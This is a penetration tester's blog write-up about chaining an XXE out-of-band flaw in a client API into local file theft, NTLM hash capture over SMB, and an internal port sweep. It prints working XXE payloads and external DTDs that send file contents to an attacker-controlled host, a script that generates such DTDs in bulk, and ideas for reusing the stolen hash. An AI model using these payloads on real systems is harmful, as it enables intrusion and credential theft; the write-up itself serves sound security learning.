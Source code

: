 ```yaml
---
title: From XXE OoB to NTLM thief
published: true
---
```

# [](#header-1) From XXE to NTLM thief!

Long time no read! I am writing this post because of a recent chain of cool vulnerabilities I got the opportuninty to exploit during a pentest.

For security reasons, I am not going to reveal the name of the company, although the bugs have been (or `should` be) mitigated.
The vulnerability got to compromise an API through an [XXE OOB](another-page) vulnerability, from where I could read local files and also exfiltrate valuable data, such as domain name, username and NTLM hash. Finally, I `sorta` got access to a port scan just to look for internal ports.

## [](#header-2)Basic PoC

Let's take a look on the original request from the page, intercepted with burp:

```json
POST blah/blah HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.26.3
Accept: */*
Postman-Token: XX
Host: XXX.YYY.ZZ
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 3292

{
  "device": {
    "brand": "Apple",
    "model": "iPhone",
    "os": "12.1.2",
    "deviceType": 1,
    "deviceOs": 1,
    "userInformation": {
      "phoneNumber": "650371725",
      "owner": {
        "firstName": "peep ",
        "surName": null,
        "lastName": "test "
      },
      "drivers": [
        {
          "firstName": "peep ",
          "surName": null,
          "lastName": "test "
        }
      ],
    },
    "deviceAttributes": [
      {
        "key": "LANGUAGE_CODE",
        "value": "es"
      }
    ],
    "kyrosDeviceId": null
  },
  "incidentType": 2,
  "xmlDisplay": null,
  "xmlCase": "&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;xmlCase version=&quot;1.0&quot;&gt;&lt;phone&gt;&lt;imei /&gt;&lt;/phone&gt;&lt;ResponseQuestions&gt;&lt;Questions&gt;&lt;Question&gt;&lt;Answers&gt;&lt;Answer&gt;&lt;AnswerId&gt;1&lt;/AnswerId&gt;&lt;TextAnswer&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;Avería&lt;/Message&gt;&lt;/Text&gt;&lt;/TextAnswer&gt;&lt;Value&gt;100&lt;/Value&gt;&lt;/Answer&gt;&lt;/Answers&gt;&lt;Order&gt;1&lt;/Order&gt;&lt;QuestionId&gt;1&lt;/QuestionId&gt;&lt;TextQuestion&gt;&lt;Text&gt;&lt;LanguageCode&gt;1&lt;/LanguageCode&gt;&lt;Message&gt;¿Qué ha sucedido?&lt;/Message&gt;&lt;/Text&gt;&lt;/TextQuestion&gt;&lt;/Question&gt;&lt;/Questions&gt;&lt;ReferenceId&gt;ITPOLICY_0001&lt;/ReferenceId&gt;&lt;/ResponseQuestions&gt;&lt;userdescription&gt;&lt;userdata&gt;&lt;language code=&quot;es&quot;&gt;&lt;field name=&quot;NIF&quot; attributeid=&quot;3&quot;&gt;34007678Q&lt;/field&gt;&lt;field name=&quot;Tipo Vehiculo&quot; attributeid=&quot;4&quot;&gt;Moto&lt;/field&gt;&lt;field name=&quot;Marca&quot; attributeid=&quot;5&quot;&gt;Bmw &lt;/field&gt;&lt;field name=&quot;Modelo&quot; attributeid=&quot;6&quot;&gt;&lt;/field&gt;&lt;field name=&quot;Matrícula&quot; attributeid=&quot;7&quot;&gt;0362FPG&lt;/field&gt;&lt;field name=&quot;Combustible&quot; attributeid=&quot;9&quot;&gt;&lt;/field&gt;&lt;/language&gt;&lt;/userdata&gt;&lt;/userdescription&gt;&lt;/xmlCase&gt;",
  "userProfile": null
```

First thing I thought when I saw the request was the XML parameters of the data section (in fact, it was the only thing I saw interesting). If we HTML-decode it we have the following:

```
<?xml version="1.0" encoding="UTF-8"?><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

I tried a basic Proof of concept with Burp Collaborator:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://abc.burpcollaborator.net">]><xmlCase version="1.0"><phone><imei /></phone><ResponseQuestions><Questions><Question><Answers><Answer><AnswerId>1</AnswerId><TextAnswer><Text><LanguageCode>1</LanguageCode><Message>Avería</Message></Text></TextAnswer><Value>100</Value></Answer></Answers><Order>1</Order><QuestionId>1</QuestionId><TextQuestion><Text><LanguageCode>1</LanguageCode><Message>¿Qué ha sucedido?</Message></Text></TextQuestion></Question></Questions><ReferenceId>ITPOLICY_0001</ReferenceId></ResponseQuestions><userdescription><userdata><language code="es"><field name="NIF" attributeid="3">34007678Q</field><field name="Tipo Vehiculo" attributeid="4">Moto</field><field name="Marca" attributeid="5">Bmw </field><field name="Modelo" attributeid="6"></field><field name="Matrícula" attributeid="7">0362FPG</field><field name="Combustible" attributeid="9"></field></language></userdata></userdescription></xmlCase>
```

Looks like I got profit :D:

![](https://raw.githubusercontent.com/kikoas1995/kikoas1995.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/burp_collab.png)

However, the response from the server shows nothing to me, so it is time to get `out of band`. 

## [](#header-2)Let's retrieve files!

Now I need to adapt my payload to make it connect to a server where I have control. From there, I need to publish a malicious DTD in order to test LFI. The payload will be:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xx.xx.xx.xx:80/evil.dtd"> %xxe;]
```

And the external DTD that will be invoked will be something like this:

```xml
<!ENTITY % file SYSTEM "file:///c:/Inetpub/wwwroot/Web.config">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % file "<!ENTITY fileContents '%start;%file;%end;'>">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xx.xx.xx.xx:80/%file;'>">
%eval;
%exfiltrate;
```

Notice that I tried to retrieve a windows file. This is because in the responses of the webapp, I saw it was running a IIS.
Okay, so now we just need to make the request while hosting a rogue web server in port 80 and...

```
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /evil.dtd HTTP/1.1" 200 -
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] code 404, message File not found
xx.xx.xx.xx - - [20/Aug/2020 18:01:59] "GET /%0D%0A%3Cconfiguration%3E%0D%0A%20%20%20%20%3Csystem.webServer%3E%0D%0A%20%20%20%20%20%20%20%20%3Csecurity%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cauthorization%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cadd%20accessType=%22Allow%22%20users=%22*%22%20/%3E%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C/authorization%3E%0D%0A%20%20%20%20%20%20%20%20%3C/security%3E%0D%0A%20%20%20%20%3C/system.webServer%3E%0D%0A%3C/configuration%3E HTTP/1.1" 404
```
Yay we got LFI! Now I needed to look for more interesting files. I thought about using intruder to fuzz for windows/IIS interesting files. However, I realized that the file name was in the DTD, not in the request... I though about some dirty solution then lol.

```python
#!/usr/bin/python
import sys

i=0
with open('file.txt') as fp:
    
    line = fp.readline().strip().lower()
    while line:
        f = open("evil" + str(i) + ".dtd", "a")
        f.write("<!ENTITY % file SYSTEM \"file:///" + line + "\">\n")
        f.write("<!ENTITY % start \"<![CDATA[\">\n")
        f.write("<!ENTITY % end \"]]>\">\n")
        f.write("<!ENTITY % file \"<!ENTITY fileContents '%start;%file;%end;'>\">\n")
        f.write("<!ENTITY % eval \"<!ENTITY &#x25; exfiltrate SYSTEM 'http:/xx.xx.xx.xx/%file;'>\">\n")
        f.write("%eval;\n")
        f.write("%exfiltrate;\n")
        f.close()
        line = fp.readline().strip().lower()
        i+=1
```

This script basically creates as many DTD files as lines in the wordlist I used to fuzz xD. Now it is only neccesary to run a Burp Intruder with evil0.dtd to evil[numer of words in the wordlist, in my case 389].dtd.

After some bruteforce time (the API takes its time to response...), I only got a couple more files but nothing interesting... :(
How could I escalate the vulnerability now? After some time reading, I found this gem: https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/

### [](#header-3)XXE to steal NTLM hash

My external DTD will look like this:

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file://xx.xx.xx.xx/blah;'>">
%eval;
%exfiltrate;
```
What does it do? It basically forces the victim to connect to a SMB share exposed. This requires however a very bad network configuration that allows outbound traffic to unauthenticated rogue SMB exposed shares (spoiler: this is the case lol):
Now I just need to host a SMB capture server using metasploit:

![](https://raw.githubusercontent.com/kikoas1995/kikoas1995.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/msfsmb.png)

Bingo!

![](https://raw.githubusercontent.com/kikoas1995/kikoas1995.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/smb.png)

This is a win :D. In order to use this hash, we could use various methods:

1.  Crack it and find an exposed RDP service of the server. 
2.  Have access to the internal network and use SMBRelay+Responder to get a shell.
3.  Find an exposed Exchange server and PtH.
 
None of them were available to me unfortunately, but I learnt a lot :D.

## [](#header-2)Bonus track: Port scanner!

As an extra, I used the DTD to make a port `sweep` (poorly useful, as this service was slow af) with a XXE OoB time-based.

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://127.0.0.1:XX'>">
%eval;
%exfiltrate;
```

Where XX is the number of the port to test. If the port is open, it will typically take different time in the response than if it is closed. Although this worked in my case, it was not very useful because of two things:
1.  Requests took ~90s of response time, which is not good for bruteforcing open ports.
2.  I did not have access to any of these services.

I hope you liked it! :)

